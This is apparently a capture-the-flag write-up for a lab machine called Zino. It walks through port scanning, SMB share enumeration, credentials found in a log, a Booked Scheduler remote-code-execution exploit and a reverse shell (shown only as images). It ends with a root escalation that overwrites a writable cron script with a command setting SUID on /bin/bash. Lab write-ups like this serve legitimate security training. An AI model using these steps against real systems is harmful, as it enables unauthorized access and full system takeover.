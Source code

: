 # Zino

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.64 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 09:52 +08
Nmap scan report for 192.168.157.64
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport
```

### FTP + SMB Enumeration

FTP doesn't allow for anonymous logins, but SMB does have shares we can read.&#x20;

```
$ smbmap -H 192.168.157.64         
[+] IP: 192.168.157.64:445      Name: 192.168.157.64                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        zino                                                    READ ONLY       Logs
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

We can login to `zino`:

```
$ smbclient //192.168.157.64/zino                                             
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 10 03:11:49 2020
  ..                                  D        0  Tue Apr 28 21:38:53 2020
  .bash_history                       H        0  Tue Apr 28 23:35:28 2020
  error.log                           N      265  Tue Apr 28 22:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 21:38:53 2020
  local.txt                           N       33  Sun Jul 16 09:51:53 2023
  .bashrc                             H     3526  Tue Apr 28 21:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 22:17:02 2020
  .profile                            H      807  Tue Apr 28 21:38:53 2020
  misc.log                            N      424  Tue Apr 28 22:08:15 2020
  auth.log                            N      368  Tue Apr 28 22:07:54 2020
  access.log                          N     5464  Tue Apr 28 22:07:09 2020
  ftp                                 D        0  Tue Apr 28 22:12:56 2020

                7158264 blocks of size 1024. 4725468 blocks available
```

The `misc.log` contained credentials for some software:

```
$ cat misc.log  
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

### Booked RCE

The only web port was port 8003, and it led us to this login page:

<figure><img src="../../../.gitbook/assets/image (2046).png" alt=""><figcaption></figcaption></figure>

There are some exploits for this:

```
$ searchsploit booked            
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execution (Metaspl | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (A | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directory Traversal | php/webapps/48428.txt
----------------------------------------------------------- ---------------------------------
```

We can use the credentials we got earlier to have RCE:

<figure><img src="../../../.gitbook/assets/image (2045).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell through `nc`:

<figure><img src="../../../.gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Exploit --> Root

I downloaded `linpeas.sh` onto the machine and ran a scan. It found a cronjob we could hijack:

<figure><img src="../../../.gitbook/assets/image (2034).png" alt=""><figcaption></figcaption></figure>

We can write to this file:

```
www-data@zino:/tmp$ ls -la /var/www/html/booked/cleanup.py
-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
```

Here's the script contents:

```
www-data@zino:/home/peter$ cat /var/www/html/booked/cleanup.py 
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

Since there's a `sys.exit(0)` function at the end, we cannot just append code. What we can do is just create a completely new `cleanup.py` file within that directory.&#x20;

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > cleanup.py
```

Then we can just wait for a bit for the script to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (3424).png" alt=""><figcaption></figcaption></figure>
